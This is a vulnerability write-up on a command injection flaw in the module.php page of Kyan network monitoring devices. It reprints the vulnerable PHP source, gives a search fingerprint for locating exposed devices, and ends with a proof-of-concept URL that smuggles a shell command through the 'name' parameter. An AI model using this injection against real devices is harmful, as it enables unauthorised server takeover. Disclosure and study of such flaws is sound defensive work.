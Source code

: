 # Kyan Network Monitoring Device module.php Remote Command Execution Vulnerability

## Vulnerability Description

Kyan network monitoring device module.php can execute any command under authentication. In conjunction with the account password leakage vulnerability, it can obtain server permissions, and there is a remote command execution vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Kyan</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="platform - Login"</span>

## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631179527807-e2a16825-af31-4f88-a5ef-32752795774b-20220314122650958.png)

Files with vulnerability: `/module.php`

```python
<?php
require_once 'config.php';
require_once 'functions.php';
require_once 'international.php';
session_start();
auth_check();

$BASH = "";
if (is_windows()) {
	$BASH = "c:\\cygwin\\bin\\bash --login -c ";
	$PREFIX = "/cygdrive/z/writable/";
	$PREFIX2 = "/cygdrive/z/";
} else {
	$BASH = "/bin/bashsuid -p -c ";
	$PREFIX = "/config/";
	$PREFIX2 = "/";
}
$encrypt_key = 'enc@leadmeet';
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
	if (!isset($_FILES['fileupload'])) {
		show_error(lang_get('no file specified'));
		exit;
	}
	if ($_FILES['fileupload']['size'] == 0) {
		show_error(lang_get('file size is zero'));
		exit;
	}
	$fileupload = $_FILES['fileupload'];
	$destdir = $PREFIX.'pkgs';
	$pkg_extract_dir = $PREFIX2.'pkgs';
	$tmpname = $fileupload['tmp_name'];
	if (is_windows()) {
		$bn = basename($tmpname);
		$command = "move /Y \"". $tmpname . "\" c:\\cygwin\\dev\\shm\\" . $bn;
		shell_exec($command);
		$tmpname = "/dev/shm/" . $bn;
	}
	shell_exec($BASH."\"mkdir -p /dev/shm/upload && chmod -R 777 /dev/shm/ \"");
	exec($BASH."\"cd /dev/shm/upload && ( bzcat " . $tmpname . " | openssl bf-cbc -d -k " . $encrypt_key . " | cpio -idu )\"", $output, $ret);
	if($ret <> 0)
	{
		show_error(lang_get('Extract file failed'));
		exec($BASH."\"rm -rf /dev/shm/upload\"");
		exit;
	}
	exec($BASH."\"cd /dev/shm/upload && md5sum -c md5sum\"", $output, $ret);
	if($ret <> 0)
	{
		show_error(lang_get('MD5 check failed'));
		exec($BASH."\"rm -rf /dev/shm/upload\"");
		exit;
	}
	if (is_windows())
		$dh = opendir('c:\\cygwin\\dev\\shm\\upload');
	else
		$dh = opendir('/dev/shm/upload');
	if(!$dh)
	{
		show_error(lang_get('can not open dest dir to copy'));
		exec($BASH."\"rm -rf /dev/shm/upload\"");
		exit;
	}
	exec($BASH."\"touch /tmp/mmap_watch_pause\"");
	while($file = readdir($dh))
	{
		if(is_dir($file)) continue;
		$file = trim($file);
		if(ereg('\.pkg$', $file))
		{
			$filetitle = basename($file, '.pkg');
			$extract_dir = $pkg_extract_dir  . '/' . $filetitle;
			exec($BASH."\"" . $extract_dir . "/.init stop\"");
			exec($BASH."\"mkdir -p " . $destdir . " && mv -f /dev/shm/upload/" . $file . " " . $destdir . "\"");
			exec($BASH."\"rm -rf " . $extract_dir . " && mkdir -p " . $extract_dir . " && cd " . $extract_dir . " && bzcat " . $destdir . '/' . $file . " | cpio -idu \"");
		}
	}
	if (!is_windows())
		exec($BASH."\"/sbin/ldconfig\"");
	else
		exec($BASH."\"rm -rf ". $tmpname ."\"");
	exec($BASH."\"rm -f /tmp/mmap_watch_pause\"");
	exec($BASH."\"rm -rf /dev/shm/upload\"");
}
if (isset($_GET['cmd']) && isset($_GET['name'])) {
	$cmd = $_GET['cmd'];
	if ($cmd == 'delete') {
		$name = $_GET['name'];
		exec($BASH."\"rm -f ".$PREFIX."pkgs/".$name."\"");
		if (is_windows())
			exec($BASH."\"rm -rf ".$PREFIX2."pkgs/".$name."\"");
	}
}
print_html_begin('module');
echo "<body>\n";
echo "<table style=\"width:500px\"  border='0' align='center' cellpadding='3' cellspacing='1'>\n";
echo "<th colspan=2>".lang_get('modules')."</th>\n";
echo "<tr><td>".lang_get('name')."</td><td>".lang_get('operation')."</td></tr>\n";
if (is_windows())
	$dh = opendir('z:\\writable\\pkgs');
else
	$dh = opendir('/config/pkgs');
if ($dh) {
	while ($file = readdir($dh)) {
		if (is_dir($file))
			continue;
		$file = trim($file);
		if (!ereg('\.pkg$', $file))
			continue;
		$filetitle = basename($file, '.pkg');
		echo "<tr><td align=center>".$filetitle."</td><td>";
		if (user_is_admin())
			echo "<a href=\"/module.php?cmd=delete&name=".$filetitle.".pkg\">".lang_get('delete')."</a>";
		echo "</td></tr>\n";
	}
}
echo "</table>\n<br>\n";
echo "<table style=\"width:500px\"  border='0' align='center' cellpadding='3' cellspacing='1'>\n";
echo "<form action=\"".$_server['php_self']."\" method=\"post\" enctype=\"multipart/form-data\">\n";
echo "<input type=\"hidden\" name=\"max_file_size\" value=\"200000000\">\n";
echo "<th align=\"center\" colspan=\"2\">".lang_get('modules to upload')."</th>";
echo "<tr> <td align=\"right\" width=\"50%\">" .lang_get('select file')."</td><td align=\"left\"> <input type=\"file\" name=\"fileupload\"> </td></tr>";
echo "<tr> <td align=\"center\" colspan=\"2\">  <input type=\"submit\" name=\"submit\" value=".lang_get('upload')."> </td></tr>";
echo "</form>\n</table>\n";
echo "</body>\n";
print_html_end();
?>
```

Some of the things to note

```python
if (isset($_GET['cmd']) && isset($_GET['name'])) {
	$cmd = $_GET['cmd'];
	if ($cmd == 'delete') {
		$name = $_GET['name'];
		exec($BASH."\"rm -f ".$PREFIX."pkgs/".$name."\"");
		if (is_windows())
			exec($BASH."\"rm -rf ".$PREFIX2."pkgs/".$name."\"");
	}
}
```

All parameters are controllable, construct POC

```python
/module.php?cmd=delete&name=;id>1.txt;
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631195035020-7f8d9f20-1260-4330-9d43-e0fb21e423c0.png)



